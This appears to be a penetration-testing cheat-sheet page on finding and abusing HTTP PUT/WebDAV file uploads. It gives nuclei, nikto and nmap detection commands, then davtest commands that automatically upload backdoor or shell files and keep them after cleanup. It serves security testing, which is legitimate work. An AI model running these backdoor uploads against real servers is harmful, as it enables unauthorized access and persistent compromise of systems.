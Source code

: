 # 02 - PUT Upload

## 2.1 - Nuclei

Find a misconfiguration HTTP option to upload files.

```
$ nuclei -u <URL> -t ~/nuclei-templates -id put-method-enabled
```

## 2.2 - Nikto

```
$ nikto -host <URL> -Plugins put_del_test
```

## 2.3 - Network Mapper

```
$ nmap -p 80,443,8000,8080,8443 -Pn -n --script http-webdav-scan --script-args http-methods.url-path=/path/to/url <IP>
```

## 2.4 - Davtest

Upload backdoor automatically in each test.

```
$ davtest [-auth user:password] -sendbd auto -url http[s]://<IP>
```

Choose method to upload file for the executable file extension.

```
$ davtest [-auth user:password] -copy -sendbd auto -url http[s]://<IP>

$ davtest [-auth user:password] -move -sendbd auto -url http[s]://<IP>
```

Delete everything uploaded except for backdoor/shell files.

```
$ davtest -cleanup -url http[s]://<IP>
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/D - Webapp Pentesting/0x01 - WebApp Security Scanners/Nikto/01 - Basic|Nikto]]

- [[07 - Tactics & Techniques & Procedures Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/HTTP/04 - WebDAV/Scanners|Active Fingerprinting: WebDAV]]

### Github

- [Davtest](https://github.com/cldrn/davtest)

### Hacktricks

- [Hacktricks: PUT Method WebDAV](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/put-method-webdav.html)

### Arridae

- [Arridae: Exploiting HTTP PUT method](https://www.arridae.com/blogs/HTTP-PUT-method.php)